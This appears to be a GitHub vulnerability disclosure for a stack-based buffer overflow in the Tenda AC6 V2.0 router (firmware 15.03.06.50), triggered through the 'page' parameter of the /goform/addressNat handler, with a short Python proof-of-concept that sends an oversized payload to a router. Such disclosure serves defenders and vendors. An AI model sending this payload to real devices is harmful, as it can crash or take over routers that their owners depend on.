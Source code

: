 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A buffer overflow vulnerability has been discovered in the Tenda AC6 V2.0 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/addressNat` HTTP request handler and can be exploited remotely by unauthenticated attackers to achieve arbitrary code execution or cause denial of service conditions.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow vulnerability exists in the HTTP request handler for the `/goform/addressNat` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `page`.

![alt text](image-2.png)

## poc
![alt text](image.png)
![alt text](image-1.png)


## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'page': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x100 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/addressNat", payload)
```